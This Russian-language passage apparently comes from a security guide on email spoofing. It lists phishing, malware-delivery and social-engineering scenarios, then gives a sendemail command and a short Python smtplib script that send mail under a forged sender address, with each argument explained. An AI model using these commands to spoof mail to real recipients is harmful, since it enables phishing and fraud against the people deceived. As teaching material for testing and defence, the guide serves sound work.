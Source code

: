 ### Возможные сценарии эксплуатации

- **Фишинг**: злоумышленник отправляет письмо с поддельным адресом, чтобы получить учетные данные.
- **Распространение вредоносного ПО**: письмо содержит вредоносные вложения или ссылки.
- **Социальная инженерия**: письмо используется для обмана сотрудников с целью получения конфиденциальной информации.



# Инструменты и методы проведения атаки

## Обзор утилит и скриптов

Для отправки поддельных e-mail используются различные утилиты и скрипты. Вот несколько популярных инструментов:

### 1. **sendemail** (написан на Perl)

- **Описание**: Легкий инструмент для отправки писем через SMTP. Подходит для простых сценариев.
- **Пример использования**:
  ```bash
  sendemail -f spoofed@trusted.com -t victim@example.com -u "Subject" -m "Message body" -s smtp.example.com:25
  ```
- **Разбор команды**:
  - `-f`: указывает поддельный адрес отправителя.
  - `-t`: адрес получателя.
  - `-u`: тема письма.
  - `-m`: текст сообщения.
  - `-s`: SMTP-сервер и порт.

### 2. **smtplib** (Python)

- **Описание**: Библиотека для работы с SMTP, встроенная в Python. Позволяет гибко настраивать отправку писем.
- **Пример скрипта**:
  ```python
  import smtplib

  server = smtplib.SMTP('smtp.example.com', 25)
  server.helo('example.com')
  server.mail('spoofed@trusted.com')
  server.rcpt('victim@example.com')
  server.data('Subject: Spoofed Email\n\nThis is a spoofed email.')
  server.quit()
  ```
- **Разбор кода**:
  - `SMTP('smtp.example.com', 25)`: подключение к SMTP-серверу.
  - `helo('example.com')`: идентификация клиента.
  - `mail('spoofed@trusted.com')`: указание поддельного адреса отправителя.
  - `rcpt('victim@example.com')`: указание адреса получателя.
  - `data(...)`: передача заголовков и тела письма.
